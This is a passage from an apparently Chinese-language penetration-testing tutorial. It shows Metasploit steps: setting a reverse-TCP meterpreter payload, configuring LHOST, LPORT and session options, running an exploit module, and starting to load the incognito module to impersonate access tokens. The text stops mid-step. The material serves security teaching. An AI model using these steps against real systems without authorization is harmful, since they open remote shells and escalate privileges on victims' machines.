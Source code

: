     **set payload /windows/x64/meterpreter/reverse_tcp**

    如下图所示，你需要修改的模块选项是 **LHOST**、**LPORT** 和 **SESSION** ID。此外，模块选项还应反映出我们在前一步中指定的默认 shell：

    ![图 6.7 – 模块选项和默认负载    ](img/B17389_06_007.jpg)

    图 6.7 – 模块选项和默认有效负载

1.  配置模块选项后，我们可以通过运行以下命令来执行漏洞模块：

    **run**

    如果漏洞成功，您应该会看到如下截图所示的新**meterpreter**会话：

    ![图 6.8 – 漏洞成功](img/B17389_06_008.jpg)

    图 6.8 – 漏洞成功

1.  下一步是执行模拟过程，可以使用内置的**meterpreter**模块**incognito**来自动化。可以通过运行以下命令来加载该模块：
